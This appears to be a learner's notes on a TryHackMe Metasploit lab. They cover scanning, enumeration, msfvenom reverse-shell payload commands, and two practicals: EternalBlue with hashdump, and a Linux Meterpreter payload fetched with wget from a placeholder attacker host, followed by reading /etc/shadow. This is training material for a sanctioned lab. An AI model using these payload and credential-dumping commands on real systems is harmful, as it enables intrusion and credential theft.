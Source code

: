 
### **TryHackMe: Cyber Security 101**

**Room:** `Metasploit: Exploitation`  
**Status:** Completed  
**Date:** 2025-08-07

----------

### **Goal**

Learn to use Metasploit for scanning, vulnerability assessment, and exploitation by leveraging various modules for port scanning, service enumeration, payload generation, and post-exploitation activities.

---------

### **Key Topics Covered**


### **Key Topics Covered**

**1. Metasploit Scanning Modules**

Metasploit offers multiple scanning modules to discover open ports and services on target systems:

-   **TCP ACK Firewall Scanner:** Detects firewall presence using TCP ACK packets.
    
-   **TCP SYN Port Scanner:** Performs SYN scans to identify open ports.
    
-   **TCP Port Scanner:** Basic TCP scanning.
    
-   **XMAS Port Scanner:** Uses TCP XMAS packets for port detection.
    

Common scan options include setting concurrency, port ranges, target hosts (RHOSTS), and threading to speed up scans.

Additionally, Nmap can be run directly inside the Metasploit console, automatically saving results to the Metasploit database.

----------

**2. Service Enumeration**

-   **UDP Service Identification:** The `scanner/discovery/udp_sweep` module helps identify UDP services such as DNS and NetBIOS.
    
-   **SMB Scans:** Specific modules like `smb_enumshares` and `smb_version` allow enumeration of SMB shares and identification of SMB versions and OS details.
    
-   NetBIOS scans reveal roles like domain controllers and shared resources on networks.
    

----------

**3. Metasploit Database Integration**

Metasploit integrates with PostgreSQL to store and manage scan results and vulnerabilities.

-   Starting PostgreSQL: `systemctl start postgresql`
    
-   Initializing database: `msfdb init` (run as non-root)
    
-   Workspaces isolate projects (`workspace -a <name>`)
    

Key commands:

-   `db_nmap`: Run Nmap and save results.
    
-   `hosts`: List hosts.
    
-   `services`: List discovered services.
    
-   `vulns`: List identified vulnerabilities.
    

----------

**4. Exploitation Workflow**

-   Search for exploits using `search <service>`.
    
-   Set payloads (e.g., Meterpreter, Reverse Shell, Bind Shell).
    
-   Configure options (`set payload`, `set LHOST`, etc.).
    
-   Launch exploits with `run` or `exploit`.
    

----------

**5. Payload Generation with Msfvenom**

Msfvenom is used to create payloads across platforms:

-   Linux ELF example:  
    `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf`
    
-   Windows EXE example:  
    `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe`
    
-   PHP example:  
    `msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php`
    

Encoders only encode payloads but do not guarantee antivirus evasion. More advanced obfuscation or shellcode injection techniques are preferable.

----------

**6. Handlers**

Handlers catch incoming connections from reverse shells or Meterpreter sessions initiated by payloads. Using the multi/handler module, attackers listen for incoming connections to "catch" shells from exploited targets.

----------

### **Practical 1: Exploiting a Critical Vulnerability**

**Questions:**

-   Exploit one of the critical vulnerabilities on the target VM.
    
-   What is the content of the `flag.txt` file?
    
-   What is the NTLM hash of the password of the user "pirate"?
    

**How I Did It:**

-   Used the EternalBlue exploit to gain access to the victim machine.
    
-   After creating a session, backgrounded the initial shell with `CTRL + Z`.
    
-   Upgraded the shell to Meterpreter using `sessions -u 1`.
    
-   Interacted with Meterpreter using `sessions -i 2`.

-   Cat'd out the contents of Flag.txt once found    
-   Executed `hashdump` to dump NTLM password hashes, including the one for user "pirate".
    
-   Accessed the `flag.txt` file to retrieve its contents.

### **Practical 2: Creating and Deploying a Meterpreter Payload on Linux**

**Questions:**

-   Create a Meterpreter payload in `.elf` format on the attacking machine.
    
-   Transfer it to the target machine.
    
-   Get a Meterpreter session on the target machine.
    
-   Use a post-exploitation module to dump hashes of other users on the system.
    
-   What is the other user's password hash?
    

**How I Did It:**

1.  Opened three terminal tabs on my attack machine.
    
2.  SSH’d into the victim machine with the provided credentials.
    
3.  Created a Meterpreter payload in ELF format using `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`
4.  Made the payload executable with `chmod 777 rev_shell.elf`.
5.  Started a Python web server on the attacking machine using `python3 -m http.server 9000`
6. Downloaded the payload on the victim machine using `wget http://ATTACKING_MACHINE_IP:9000/rev_shell.elf`
7. Opened Metasploit in another terminal tab, set up the `multi/handler` exploit, configured `LHOST`, `LPORT` (matching payload), and set the payload to `linux/x86/meterpreter/reverse_tcp`.
8. Ran the exploit and waited for a connection.
9. Executed the payload on the victim machine to trigger the reverse shell.
10. Caught the reverse shell and established a Meterpreter session.
 11.  Attempted to run `post/linux/gather/hashdump` but it failed.
    12.  Manually navigated to `/etc/shadow` and viewed password hashes with `cat /etc/shadow`.

-----

### **What I Learned**

-   The differences and use cases for multiple Metasploit scanning modules.
    
-   How to enumerate services on targets, including UDP and SMB.
    
-   The process of initializing and using Metasploit’s database and workspaces.
    
-   Step-by-step exploitation flow: searching exploits, setting payloads, and launching attacks.
    
-   How to generate payloads for different platforms using msfvenom.
    
-   The importance of handlers in managing reverse shell connections.
    
-   Practical skills in upgrading shells and extracting credentials post-exploitation.
    
-   Techniques for payload delivery using simple HTTP servers.
    
-   Alternatives when post-exploitation modules fail, such as manual file inspection.






